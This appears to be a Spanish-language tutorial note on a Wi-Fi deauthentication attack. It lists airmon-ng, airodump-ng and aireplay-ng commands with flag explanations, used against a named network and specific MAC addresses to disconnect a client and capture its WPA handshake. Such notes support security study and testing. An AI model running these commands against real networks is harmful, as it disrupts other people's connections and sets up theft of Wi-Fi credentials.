 Consiste en interceptar una comunicación del cliente al AP, insertando en la data paquetes de des autenticación, con el objetivo de denegar el servicio al cliente.

	airmon-ng start wlan1
Iniciamos nuestra tarjeta de red en modo monitor.

	airodump-ng wlan1mon -c 1
Monitoreamos la red en el canal 1

**Datos del AP**
D0:B6:6F:5A:4C:BF  INFINITUM33B5      
**Datos del cliente asociado al AP**
68:D7:9A:56:2B:72

	airodump-ng -c 1 -w CapturasDeAuth --essid INFINITUM33B5 wlan1mon 
Capturamos los paquetes que circulan en la AP

-w *archivo donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal donde se ubica el AP.*
 --essid *nombre de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escáner el trafico de la red victima.*

Mientras realizamos la captura del trafico vamos a enviar paquetes DeAuth a un cliente en especifico para capturar el [[HandShake]].

	aireplay-ng -0 10 -e INFINITUM33B5 -c 74:23:44:A9:C7:67 wlan1mon
Mandamos paquetes DeAuth para expulsar al cliente y que se vuelva a conectar para capturar el HandShake.

-0 *especificamos que se realizara un ataque DeAuth.*
10 *numero de paquetes DeAuth que enviaremos.*
-e *essid de la red.*
-c *dirección mac del cliente que expulsaremos de la red.*
wlan1mon *tarjeta de la red en modo monitor.*

Una vez que el cliente se reconecte tendremos capturado el HandShake.